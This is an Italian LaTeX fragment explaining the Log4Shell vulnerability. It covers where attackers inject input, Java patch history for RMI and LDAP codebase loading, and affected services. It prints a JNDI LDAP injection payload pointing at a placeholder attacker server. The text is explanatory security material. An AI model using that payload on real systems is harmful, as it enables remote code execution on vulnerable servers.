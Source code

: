 \documentclass[a4paper, 12pt]{article}
\begin{document}
Tutto ciò che un attaccante deve fare per sfruttare la vulnerabilità è trovare un input che viene registrato nei log ed iniettare una stringa del tipo:
\begin{center}
    \verb!${jndi:ldap://attackerserver.com/a}!
\end{center}
Questo potrebbe essere un'intestazione HTTP come lo User-Agent (comunemente registrato nei log) o un parametro di un form come username o password che viene loggato dalla applicazione.


\subsubsection{Patch nelle versioni Java}
Per diverso tempo sia per RMI che per LDAP il riferimento che era possibile specificare relativo alla codebase da importare non è stato affatto limitato, una chiamata lookup ad server LDAP o RMI controllato dall'attaccante portava direttamente all'esecuzione di codice remoto.

A partire dalla versione di Java \verb!8u121! l'inserimento di una codebase remota è stata bloccata di default per quanto riguarda RMI.
Apparentemente la patch era stata applicata anche per LDAP, ma si è rivelata completamente inefficace per il caricamento di oggetti tramite le codbase di factory. Pertanto, fino al rilascio di Java \verb!8u191! (circa tre anni fa) i riferimenti LDAP consentivano di caricare classi remote contenenti codice arbitrario tramite una chiamata JNDI lookup controllata.

Le versioni JDK successive a \verb!8u191! non sono vulnerabili al vettore di attacco LDAP. In queste versioni \verb!com.sun.jndi.ldap.object.trustURLCodebase! è impostato su \verb!false! per impostazione predefinita, il che significa che JNDI non può caricare codice remoto utilizzando LDAP. Tuttavia, esistono altri vettori di attacco capaci di causare RCE, un attaccante infatti potrebbe comunque sfruttare il codice di altre applicazioni esistenti sul server per ottenere il caricamento di codice remoto. 


\subsection{Requisiti dell'attacco}
Tantissimi servizi sono vulnerabili a questo exploit, servizi in cloud come Minecraft, Steam ma anche applicazioni desktop.
Qualsiasi software Java utilizzi la famosa libreria di Apache potrebbe essere esposto ad attacchi che sfruttano la vulnerablità.
\end{document}
